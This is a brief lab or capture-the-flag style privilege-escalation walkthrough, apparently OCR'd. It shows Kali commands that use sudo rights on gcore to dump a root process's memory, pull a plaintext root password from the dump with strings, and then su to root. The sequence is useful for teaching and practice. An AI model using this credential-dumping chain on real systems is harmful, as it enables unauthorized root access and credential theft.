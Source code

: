 ```bash - kali
sudo -l
```

`/usr/bin/gcore`

```bash - kali
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

`/usr/bin/password-store`

```bash - kali
ps aux | grep root
```


`root 25737 ©.0 ©.0 2276 72 ? Ss 15:34 ©0:00 /usr/bin/password-store`

```bash - kali
sudo -u root /usr/bin/gcore -a -o /home/<USER>/output 25737
```

```bash - kali
strings /home/<USER>/output.25737
```

`ClogKingpinInning731`

```bash - kali
su root
```

ClogKingpinInning731
